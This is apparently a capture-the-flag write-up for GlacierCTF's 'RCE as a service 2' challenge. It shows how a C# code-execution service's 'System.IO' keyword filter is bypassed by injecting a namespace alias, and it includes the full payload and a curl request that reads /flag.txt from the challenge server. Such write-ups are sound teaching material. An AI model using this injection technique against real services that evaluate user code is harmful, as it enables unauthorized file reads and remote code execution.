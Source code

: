 # Challenge

It came to our attention that a highly advanced APT targeted our edge computing system. In order to stop the attacks, we implemented even more advanced mitigations.

Think seccomp, but for the web!

Now there's no way an attacker could run malicious code, right?

(Goal: Read flag.txt at the filesystem's root.)

https://rce-as-a-service-2.ctf.glacierctf.com

# Writeup

We can execute a lambda on the server. To read the flag, we can use `System.IO.File.ReadAllText`, but the server does not allow occurrence of `System.IO`:

```csharp
// Here we can adjust the difficulty of the challenge by banning certain functions.
var fileSystemUsage = Regex.IsMatch(query, "System.IO");

if (fileSystemUsage) {
    throw new Exception("'System.IO is not in the edge-computing file. This incident will be reported.'");
}
```

Code template execute remotely:

{% raw %}
```csharp
    var src = $@"
        using System;
        using System.Linq;
        using System.Collections.Generic;
        
        namespace RCE
        {{
            public static class Factory
            {{
                public static Func<IEnumerable<string>, IEnumerable<object>> CreateQuery = {query};
            }}
        }}";
```
{% endraw %}

We can write `using S = System;` and `S.IO.File.ReadAllText` to circumvent the match, but `using S = System` can only be used in namespace.

Therefore, we can create a namespace for it and define a new function:

```csharp
using System;
using System.Linq;
using System.Collections.Generic;
        
namespace RCE
{
    public static class Factory
    {
        public static Func<IEnumerable<string>, IEnumerable<object>> CreateQuery = (data) => data.Select(d => RCE.T.C.Read(@"/flag.txt"));
    }
    namespace T {
        using S = System;
        public class C {
            public static string Read(string path) {
                return S.IO.File.ReadAllText(path);
            }
        };
    }
}
```

This is similar to SQL injection: we inject additional namespaces and classes into the code, and maintain the brackets. Capture the flag:

```shell
curl -vvv \
--request POST \
--url https://rce-as-a-service-2.ctf.glacierctf.com/rce \
--header 'Content-Type: application/json' \
--data '{
"Data": ["hello", "crypto", "lena"],
"Query": "(data) => data.Select(d => RCE.T.C.Read(@\"/flag.txt\")); } namespace T { using S = System; public class C { public static string Read(string path) { return S.IO.File.ReadAllText(path); } }"
}'
# => glacierctf{L1V1N_ON_TH3_3DG3}
```

# Conclusion

Do not allow RCE. Do not use strings from user input to concat.